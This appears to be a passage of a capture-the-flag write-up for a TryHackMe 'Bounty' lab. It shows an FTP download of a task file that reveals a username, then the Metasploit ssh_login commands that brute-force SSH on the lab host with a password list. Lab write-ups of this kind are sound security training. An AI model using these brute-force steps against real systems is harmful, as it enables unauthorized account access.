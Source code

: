 These looks like passwords .

```
ftp> get task.txt -
remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
226 Transfer complete.
68 bytes received in 00:00 (1.21 KiB/s)

```

So we have a username : **lin.**

We can download them in our directory with a simple `get <filename>` .

## SSH

Now we can try [Bruteforcing](../../3%20-%20Tags/Hacking%20Concepts/Bruteforcing.md) [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with these credentials, we can use **[Hydra](../../3%20-%20Tags/Hacking%20Tools/Hydra.md)** or <span style="color: rgb(224, 62, 45);">**Metasploit**</span> 

### [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md)

We search for **ssh_login**, select <span style="color: rgb(224, 62, 45);">scanner/ssh/ssh_login</span> and set options :

```
msf6 auxiliary(scanner/ssh/ssh_login) > options
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/hax/THM/CHALLENGES/Easy/Bounty/locks.txt
pass_file => /home/hax/THM/CHALLENGES/Easy/Bounty/locks.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts bounty.thm
rhosts => bounty.thm
msf6 auxiliary(scanner/ssh/ssh_login) > set username lin
username => lin
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssh/ssh_login) > run

```

Now we wait for the result :

![c06e4e64ab34897a8b3162d5fd80ee1d.png](../../../2%20-%20Resources/Others/Flameshots/c06e4e64ab34897a8b3162d5fd80ee1d.png)